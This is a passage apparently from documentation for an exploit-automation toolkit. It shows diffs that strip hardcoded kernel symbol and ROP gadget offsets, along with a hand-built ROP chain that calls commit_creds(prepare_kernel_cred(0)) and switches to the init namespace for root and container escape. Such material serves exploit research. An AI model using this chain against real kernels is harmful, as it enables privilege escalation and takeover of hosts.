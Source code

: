     > **Note**
    > If the structure or symbol was not defined via `StaticTarget` but used above, it means it's already present in `target_db` and available for all targets.

### Everything ROP related

Remove symbol and ROP gadget offsets as they're going to be substituted by expkit ROP chain automated generation:

```diff
-#define PREPARE_KERNEL_CRED 0x1bb6b0
-#define COMMIT_CREDS 0x1bb410
-#define FIND_TASK_BY_VPID 0x1b1df0
-#define SWITCH_TASK_NAMESPACES 0x1b9880
-
-#define DO_SYS_VFORK 0x18c3b0
-#define MSLEEP 0x224be0
-
-#define INIT_NSPROXY 0x2676600
-
-#define MOV_RSP_RBP_POP_RBP_RET 0x12aeac
-#define POP_RDI_RET_THUNK 0x0d8a3a
-#define POP_RSI_RET_THUNK 0x04899f
-#define MOV_RDI_RAX_POP_RBX_RET_THUNK 0x0d4f31
```

The functionality responsible for constructing ROP chain could also be removed:

```diff
-void prepare_rop (long *rop, long kbase) {
-    rop[JOP_OFF/8] = kbase + MOV_RSP_RBP_POP_RBP_RET;
-
-    rop += (JOP_OFF - SK_DESTRUCT_OFF)/8;
-    /* commit_creds(prepare_kernel_cred(0)) */
-    rop++;
-    *rop++ = kbase + POP_RDI_RET_THUNK;
-    *rop++ = 0;
-    *rop++ = kbase + PREPARE_KERNEL_CRED;
-    *rop++ = kbase + MOV_RDI_RAX_POP_RBX_RET_THUNK;
-    rop++;
-    *rop++ = kbase + COMMIT_CREDS;
-    /* switch_task_namespaces(find_task_by_vpid(1, init_ns_proxy) */
-    *rop++ = kbase + POP_RDI_RET_THUNK;
-    *rop++ = 1;
-    *rop++ = kbase + FIND_TASK_BY_VPID;
-    *rop++ = kbase + POP_RSI_RET_THUNK;
-    *rop++ = kbase + INIT_NSPROXY;
-    *rop++ = kbase + MOV_RDI_RAX_POP_RBX_RET_THUNK;
-    rop++;
-    *rop++ = kbase + SWITCH_TASK_NAMESPACES;
-    /* telefork */
-    *rop++ = kbase + DO_SYS_VFORK;
-    *rop++ = kbase + MSLEEP;
-}
```
